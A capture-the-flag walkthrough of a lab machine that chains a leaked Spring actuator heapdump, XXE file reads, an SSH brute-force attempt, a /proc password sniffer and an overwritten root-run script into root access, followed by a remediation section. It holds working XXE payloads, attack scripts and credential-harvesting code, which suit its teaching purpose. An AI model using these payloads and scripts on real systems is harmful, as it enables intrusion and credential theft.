*(jeez 1.6 rating??)*

## User Flag
- Recon
    - 
- So it redirects us to `http://api.htb-airport.htb`, add to `/etc/hosts`
- Upon inspecting the open ports, we see 2 api gateways
    - 
    - 
      <span class="caption">Port 8081 describes itself: an AIDX flight-leg ingest that accepts `POST /feeds/aidx` as `application/xml`, and notes it doesn't parse anything itself (validation happens downstream). That note is the XXE hint.</span>
- Note that we see `"Ingest...validation happens downstream"`, maybe we can do XXE? (XML External Entity injection)
    - We can try with some payloads, but I'm not sure how to do so, let's leave this here first

- We see a `.api` before the real domain, maybe there are more vhosts? fuzz for em
    - `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://api.htb-airport.htb -H "Host: FUZZ.htb-airport.htb -fc 178"`
        - hmm nothing shows
- What about just directory fuzzing?
    - 
      <span class="caption">Directory fuzzing on `api.htb-airport.htb` finds `/error`, `/status`, `/health` and `/actuator`. The last one is Spring Boot's management endpoint.</span>
- o, we see a directory `actuator`
    - 
- It presents a heapdump at this url, we can `curl -o ...` for the memory dumpfile
- Let's try to find something useful in here
    - First `strings -a -n 6 heapdump.bin > strings.txt` turn it into a txt file s.t. we can `grep`
    - But its still way too large to find manually, so I used claude to find it for me
        - 
- Hmm but it seems we could not login from the outside

## Coming back next day
- There must be a way to use these creds, lets do a full nmap scan again
    - 
    - Seems like i have missed one service
    - if we visit `http://db.htb-airport.htb/play`, we can use the creds to login
        - 
        - We can do queries!
>　We can somehow use XXE and then allow us to query credentials via the clickhouse query
- Searching for XXE usage on `PayloadsAllTheThings`, we get some we can try to use
```xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<IATA_AIDX_FlightLegNotifRQ>
  <Originator>test</Originator>
  <FlightLeg>
    <LegIdentifier>...</LegIdentifier>
    <FlightNumber>&xxe;</FlightNumber>
  </FlightLeg>
</IATA_AIDX_FlightLegNotifRQ>
```
- Then we use the api route the endpoint exposes:
```bash
curl -s -X POST http://stream.htb:8081/feeds/aidx \
  -H 'Content-Type: application/xml' --data-binary @tst.xml
```
- Replies:
    - 
      <span class="caption">The ingest endpoint replies `accepted: true` and names the Kafka topic it published to, `aidx.flightleg.raw.v1`. Nothing is parsed here, so the entity only resolves further down the pipeline.</span>
- Ok, so combining this info with the previous db query, we can see it might be stored in `flightleg.raw`
    - 
- bingo, but we see, the `&xxe` is not interpreted as the command we want to inject, so maybe we are in the wrong place?
- Visiting other tables:
    - `SELECT * FROM partner_feed.flightleg_json ORDER BY 1 DESC LIMIT 5 FORMAT Vertical;`
    - 
- The 3rd one looks sus: lets copy the whole event
```
event:              {"message_type":"IATA_AIDX_FlightLegNotifRQ","version":null,"timestamp":null,"transaction_id":null,"originator":null,"leg":{"ufi":{"airline":null,"flight_number":null,"suffix":null,"departure_airport":null,"arrival_airport":null,"origin_date":null,"repeat_number":null},"operational_status":null,"times":{},"all_fields":{"LegIdentifier":"JERRY200","FlightNumber":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\nsystemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\nmessagebus:x:101:102::/nonexistent:/usr/sbin/nologin\nsystemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\npollinate:x:102:1::/var/cache/pollinate:/bin/false\npolkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\nsyslog:x:103:104::/nonexistent:/usr/sbin/nologin\nuuidd:x:104:105::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:105:107::/nonexistent:/usr/sbin/nologin\ntss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false\nlandscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin\nfwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin\nusbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:109:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:999:988::/var/log/laurel:/bin/false\nsvc-infra:x:1000:1000:,,,:/home/svc-infra:/bin/bash\nclickhouse:x:996:987::/nonexistent:/bin/false\nmartin_cole:x:1001:1001:,,,:/home/martin_cole:/bin/bash\ndhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false"}}}
```
- lets goo, it runs our malicious command (note that here only has file-read, no executability)
    - We have 3 accounts, the interesting one are svc-infra (uid 1000), and martin_cole (uid 1001)
    - Let's try to see if we can find creds for them
- New payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<IATA_AIDX_FlightLegNotifRQ>
  <Originator>test</Originator>
  <FlightLeg>
    <LegIdentifier>...</LegIdentifier>
    <FlightNumber>&xxe;</FlightNumber>
  </FlightLeg>
</IATA_AIDX_FlightLegNotifRQ>
```
> Note: I tried like 20 payloads for different file directories, but none seem to find me creds for these accounts (blind XXE is tiring)
- I saw someone brute-forcing ssh using `hydra`, that seems so crazy but i'll try
- `hydra -l svc-infra -P /usr/share/wordlists/rockyou.txt \
  -t 4 -f ssh://10.129.49.226`
- At this point, i knew why this box had such a low rating, how do I even think of doing so irrational stuff like brute-forcing ssh???
    - but again, i still think this isnt the intended way to solve it
- Let's keep trying blind XXE
- I actually found the endpoint for the kafka config!
    - `file:///opt/kafka_2.13-4.3.1/config/server.properties`
    - So now we can XXE and then dump this in the SQL page
- 
- But if you wanna login with this set of creds, note that you shouldn't add the `\` inside the password 

## Root Flag
- Basic checks like `sudo -l` or others all fail, as expected
- Tried `ps -ef --forest | less -S` but see no interesting process run by root & user can modify
- To check running systemd services
    - 
      <span class="caption">`systemctl list-timers` shows a custom `aidx-dlq-drainer.timer` that last ran 44 seconds ago and fires every couple of minutes: the root job we end up hijacking.</span>
- We see the `aidx...` service again, `cat /etc/systemd/system/aidx...`
    - 
- And if we dig deep into this python script `dlq_drainer.py` (this is the most important part for PE)
```python
FORMATTER = os.environ.get("AIDX_FORMATTER",
                           "/var/lib/clickhouse/user_files/aidx_quarantine.py")
CH_PW_FILE = os.environ.get("CH_PW_FILE", "/etc/partner-sync/ch.pw")
...
def _record(...):
    subprocess.run(["clickhouse-client", "--user", "default",
                    "--password", _pw(), "-q", q], check=False)
def _format(raw):
    p = subprocess.run(["python3", FORMATTER], input=raw, ...)
```
- Interestingly, `_pw()` allows us to literally see the password cause it drops it in argv
- So this `aidx_quarantine.py` runs every 2 minutes as root, let's see if we can edit it:
```bash
svc-infra@stream:/opt/ops$ ls -la /var/lib/clickhouse/user_files/aidx_quarantine.py
ls: cannot access '/var/lib/clickhouse/user_files/aidx_quarantine.py': Permission denied
```
- We have no access, but we know that we need to somehow let this FORMATTER run as root to output the root flag. At the same time, there is a password file, I'm guessing we need this password s.t we can somehow let this service run our malicious FORMATTER
- According to `dlq_drainer.py`, when 2 minutes hit and the service restarts:
    1. Consumer polls for messages 
    2. Finds our DLQ message
    3. Runs _format(raw) — executes FORMATTER Python script 
    4. Runs _record() — launches clickhouse-client --password [SECRET]
- Maybe we can somehow sniff the password when step 4. runs
> sniffer.py
```python
import os, re

pw_pattern = re.compile(rb'--password\x00([^\x00]+)')

while True:
    for pid in os.listdir('/proc'):
        if not pid.isdigit():
            continue
        try:
            # Read raw bytes — avoids any string decoding overhead
            data = open(f'/proc/{pid}/cmdline', 'rb').read()
            if b'clickhouse-client' in data and b'--password' in data:
                m = pw_pattern.search(data)
                if m:
                    pw = m.group(1).decode()
                    print(f'[+] PASSWORD: {pw}')
                    open('/tmp/ch_pass.txt', 'w').write(pw)
                    exit(0)
        except:
            pass
```
> dlq.py
```python
from confluent_kafka import Producer

p = Producer({"bootstrap.servers": "localhost:9092"})
p.produce(
    "aidx.flightleg.dlq.v1",
    value=b"<trigger>exploit</trigger>",
    headers=[("reason", b"test")]
)
p.flush(10)
print(" DLQ message queued")
```
- Lastly, we need a shell script to automate running these sniffers:
> script.sh
```bash
for i in 1 2 3 4 5; do
    /opt/aidx-pipeline/venv/bin/python3 -c "$(cat sniffer.py)" &
done

# Produce the DLQ message
/opt/aidx-pipeline/venv/bin/python3 -c "
from confluent_kafka import Producer
p = Producer({'bootstrap.servers': 'localhost:9092'})
p.produce('aidx.flightleg.dlq.v1', value=b'<t>go</t>', headers=[(b'reason',b'test')])
p.flush(10)
"
```
- So we run `./script.sh` -> `python3 dlq.py` -> wait , s.t. 5 parrellel sniffers sniff for the pwd
- 
- Now, we can use the `file()` table function, to perform read & write on the FORMATTER
```python
import subprocess

# Our malicious FORMATTER — must read stdin and print tab-separated output
# (dlq_drainer expects: byte_len TAB root_tag TAB preview)
payload = b"""import sys, os
raw = sys.stdin.buffer.read()
os.system("cat /root/root.txt > /tmp/rflag.txt; chmod 777 /tmp/rflag.txt")
os.system("cat /home/martin_cole/user.txt > /tmp/uflag.txt; chmod 777 /tmp/uflag.txt")
os.system("id > /tmp/proof.txt; chmod 777 /tmp/proof.txt")
print(str(len(raw)) + "\\t" + "AIDX" + "\\t" + "ok")
"""

result = subprocess.run(
    [
        'clickhouse-client',
        '--user', 'default',
        '--password', '[CAPTURED_PASSWORD]',
        '--query',
        ("INSERT INTO TABLE FUNCTION "
         "file('aidx_quarantine.py', 'RawBLOB') "
         "SETTINGS engine_file_truncate_on_insert=1 "
         "FORMAT RawBLOB")
    ],
    input=payload,
    capture_output=True
)

if result.returncode == 0:
    print("[+] FORMATTER overwritten successfully")
else:
    print(f"[-] Error: {result.stderr.decode()[:200]}")
```
- This overwrites the FORMATTER, thus if we send a DLQ again over, it will now load our malicious FORMATTER and prints the flags inside `/tmp`
    - 
- 
  <span class="caption">Stream solved on 15 Oct 2026.</span>

> Conclusion: Such a nasty root chain, how is this medium

## Remediation

Every step here is something leaking that shouldn't be reachable.

- **Lock down the Spring actuator.** The heapdump at `/actuator/heapdump` is what handed us the first set of creds. Don't expose `heapdump`, `env`, or `threaddump` — restrict the actuator to loopback or an admin network, require authentication, and set `management.endpoints.web.exposure.include` to the minimum. See [Spring Boot — actuator security](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#actuator.endpoints.security).
- **Disable external entities in the XML parser.** The AIDX feed parsed XML with DTDs enabled, so `<!ENTITY xxe SYSTEM "file:///etc/passwd">` read arbitrary files. Set `disallow-doctype-decl` and disable external general/parameter entities on the parser. See [OWASP — XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).
- **Stop passing the ClickHouse password on the command line.** `dlq_drainer.py` launched `clickhouse-client --password <secret>`, so anyone who could read `/proc/<pid>/cmdline` (our sniffer) got it. Use `CLICKHOUSE_PASSWORD`, a config file with tight permissions, or stdin instead of argv.
- **Don't let a lower-privileged user write the script a root service executes.** The real privesc was overwriting `aidx_quarantine.py` (writable via the `file()` table function) that the root drainer then ran. The formatter the root unit runs must be owned by root and not writable by `svc-infra`/`clickhouse`, and ClickHouse shouldn't be able to write into a path that feeds root execution.

### References

- [Spring Boot actuator security](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#actuator.endpoints.security)
- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [CWE-214 — invocation of process using visible sensitive information](https://cwe.mitre.org/data/definitions/214.html)
